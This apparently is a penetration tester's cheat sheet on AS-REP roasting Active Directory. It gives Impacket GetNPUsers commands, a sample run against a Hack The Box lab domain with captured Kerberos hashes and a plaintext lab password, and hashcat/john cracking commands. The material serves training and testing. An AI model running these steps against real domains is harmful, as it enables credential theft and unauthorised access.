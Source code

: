 # AS_REP

## check ASREPRoast for a list of users (no credentials required)
##  marche pour les objet AD sans pré-authentification


python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

exemple:
/usr/share/doc/python3-impacket/examples/GetNPUsers.py HTB.local/ -usersfile ./list.txt -dc-ip 10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:0f8b748c0c7d0a6ff02fa17a749ba128$ccacb6c97be0a844b6890b88bc97cd27b6798396bf2c3e64c773f25f257c000c6f2cc4301b2d97c24a4a752bbbbe1754a4238585dcac082206e021439994f2d7e46dfb24a7189417de710ad4f495aa1b19ee9e443d58aa275f95e3e9df419551fa4ba2b77dd260edae5112d49a4e6bb5f99597adc891d12ff54c1be1cef600eaee164a2a674093fc0bd02540b40f96d44a6e44f4cf4d66c9c8a3cd883994e599c55aaa91264f3acd2fd257943aaacf2462cc68d274940cc7530829b9b23c6e144a5915514d6e55a02752199aa9df813f1104798188d8788122acf982b85a4c6995a3b272956b
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)


## Cracking with dictionary of passwords:

hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>





## check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>



/usr/share/doc/python3-impacket/examples/GetNPUsers.py -request HTB.local/svc-alfresco:s3rvice -dc-ip 10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2019-10-16 16:33:13.197703  2019-10-16 16:31:50.994383  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:b56acf6c68e5a4cecbee05233e672ad1$c883d417090944cd8261b42e3c69e1818ea72d2fbfd6195a2d3e22aaaa6d69dca0e16d5899bfc66ac868a2b3d2bb69d9f500b711ce74ccf671eb688fb8da20fec9a9183cd776ead51cddfb7b30cd713a498144f86c8072db7799d907f35008aeb007bce2a0e299354860f9e0ef18c8d3e5b31ff1668b8cb55f8614fa8a35ad56faeac5f1503cb079e3db6e8337aaa401fddb6361c156e8d34bb828eb4ebedb52878b94dceedb74a4fdd3ecd313d6868430bab82ad75124a9fd022c7ecc123ca33ef4a58f647c01d7f48aef89b8aaa33d6f29d9d151a386a3a9f3b0f0829a657954fdce800cb1


